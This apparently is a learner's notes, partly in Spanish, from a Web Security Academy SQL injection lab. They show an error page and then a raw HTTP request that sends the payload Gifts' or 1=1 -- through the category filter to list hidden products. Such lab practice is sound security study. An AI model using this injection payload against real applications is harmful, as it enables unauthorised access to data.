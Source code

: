 ```python
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                    </header>
                    <h4>Internal Server Error</h4>
                    <p class=is-warning>Internal Server Error</p>
                </div>
            </section>
        </div>
    </body>
</html>











PROBAMOS AHORA CON LA INYECCION CLASICA PARA TRAATAR DE VER TODAS LAS CATEGORIAS Gifts' or 1=1 -- :





REQUEST:




GET /filter?category=Gifts' or 1=1 -- HTTP/2
Host: 0ae300cc036d57f980502b3a008e0087.web-security-academy.net
Cookie: session=toC1WozGOYlYgdFOPwgpXdZqsH5nzOmt
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="118", "Google Chrome";v="118", "Not=A?Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae300cc036d57f980502b3a008e0087.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: es-419,es;q=0.9,en;q=0.8


```